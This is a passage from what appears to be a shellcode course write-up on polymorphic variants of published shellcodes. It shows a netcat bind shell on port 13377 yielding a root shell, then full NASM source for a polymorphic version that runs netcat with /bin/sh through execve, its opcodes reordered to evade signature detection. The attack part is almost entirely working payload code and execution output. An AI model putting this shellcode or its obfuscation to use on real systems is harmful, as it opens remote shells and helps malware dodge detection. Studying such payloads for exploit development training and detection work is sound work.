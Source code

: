 Here we go, our new polymorphic shellcode did the job and is **40 bytes** long.  
<br />
### netcat bin shellcode:  
  
Here we go for our last shell-storm shellcode. We will use this [shellcode](http://shell-storm.org/shellcode/files/shellcode-804.php) which is calling netcat to bind a shell on port 13377.  
  
Let's assembly, link and execute [netcat_bind.nasm](https://github.com/phackt/slae/tree/master/assignment6/netcat/netcat_bind.nasm) (**64 bytes** long):    
```bash
# ./compile.sh netcat_bind
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
# ./netcat_bind 
listening on [any] 13377 ...
```
  
Then from another shell:  
```bash
# nc 127.0.0.1 13377
id
uid=0(root) gid=0(root) groups=0(root)
```
  
Perfect, everything is working fine, so let's mix up this opcodes in our [netcat_bind_polymorphic.nasm](https://github.com/phackt/slae/tree/master/assignment6/netcat/netcat_bind_polymorphic.nasm):  
```nasm
section .text
    global _start
_start:
  xor ecx,ecx
  mul ecx          ; mul technique to clear out EAX and EDX
  
  jmp short arg1   ; jmp/call/pop technique

poptag1:
    pop edx          ; replace the push opcode
    push eax

  push 0x68732f6e
  push 0x69622f65
  push 0x76766c2d
  mov ecx,esp

  push eax
  push 0x636e2f2f
  push 0x2f2f2f2f
  push 0x6e69622f
  mov ebx, esp

  push eax
  push edx
  push ecx
  push ebx
  
  mov edx,eax      ; replace the xor opcode
  mov  ecx,esp
  mov al,11        ; execve syscall
  int 0x80

arg1:
  call poptag1
  string1 db "-vp13377"
```
  